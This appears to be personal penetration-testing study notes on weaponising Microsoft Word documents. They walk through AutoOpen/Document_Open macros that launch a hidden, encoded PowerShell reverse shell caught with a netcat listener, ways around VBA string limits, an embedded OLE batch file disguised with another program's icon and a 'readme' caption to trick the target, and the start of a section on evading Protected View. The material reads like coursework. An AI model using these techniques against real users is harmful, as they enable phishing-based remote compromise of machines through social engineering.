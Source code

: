                     new word doc > view > macros > name it > macros in dropdown
                        > select the word doc u made > create
                    the `Main` in the macro starts with `Sub` and ends with
                        `End Sub` [empty_macro](empty_macro) `'` comments
                    we need to add `AutoOpen` runs macro on doc opening and
                        `Document_open` runs macro when already opened doc is
                        reopened be fore we add our commands in our `Main` (Sub
                        MyMacro) [macro_opening_cmd](macro_opening_cmd) and 
                        save it as `.docm` or `doc` and AVOID `.docx`
                        save as `Word 97-2003 Document`
                    open the doc and a security warding showing macros have
                        been disabled will be at the top. User needs to click
                        `enable content` to run it. Some environments use 
                        macros and they will be enabled by default. 
                        you get a `cmd` to pop up!!!
                    #powershell
                        VBA has a 255 char limit on str in a macro but doesn't
                            apply to vars. so split the phowershell into mult
                            lines and concatenate with [vbs_str_splitter](vbs_str_splitter)
                            `python vbs_str_splitter.py | xclip -selection clipboard`
                                will send the results to clipboard
                        add `Dim Str as String` in macro `Sub` main above the
                            `CreateObject` [ps_macro_reverse_shell](ps_macro_reverse_shell)
                        `nc -lvnp 4444` and we get a reverse shell!!! A
                            powershell window will pop up on the tgt for just a
                            second and then close. If a doc has been modified
                            that has already had macros enabled and the name
                            hasn't changed, the security warning will not pop
                            up
                    #object linking and embedding
                        patched in 2017, Dynamic Data Echange (DDE) could be
                            used to execute apps form Office docs. However we
                            can still use Object Linking and Enbedding (OLE)
                            instead.
                        windows batch files are older and replaced with vb
                            scripts and powershell. However batch scripts still
                            work
                        create a batch script on windows with: 
                            `echo START cmd.exe > launch.bat`
                        open Word > new doc > incert > object (looks like tiny
                            window) > create from file > browse to `launch.bat`
                            > check display as icon > change icon > by file
                            name click browes > find another apps .exe so it
                            looks like somthing normal > by Caption change the
                            text to somthing like `readme` > ok
                            * C:\Program Files\Microsoft Office\<user>\Office16\EXCEL.exe
                                might be a good one
                        save it as `Word 97-2003 Document` if opened and the
                            tgt double clicks the batch file icon and accepts the
                            secuirty warning, `cmd` will open!
                        #powershell
                            we can use the same powershell payload as before
                                instead of the `launch.bat` above saved as a
                                `.bat` file [ps_reverse_shell_bat](ps_reverse_shell_bat)
                                can make with:
                                `echo powershell.exe -nop -w hidden -e aQB...wA= > ps_reverse_shell.bat`
                                * do not use `""` with this in `cmd`
                            a `cmd` with our ps code will pop up and close give
                                us a shell!!!
                        #evading protected view
                            view email and download link, `protect view` built
                                into windows will block macros and embedded
                                files.
                            send ps_rs_embedding.doc to kali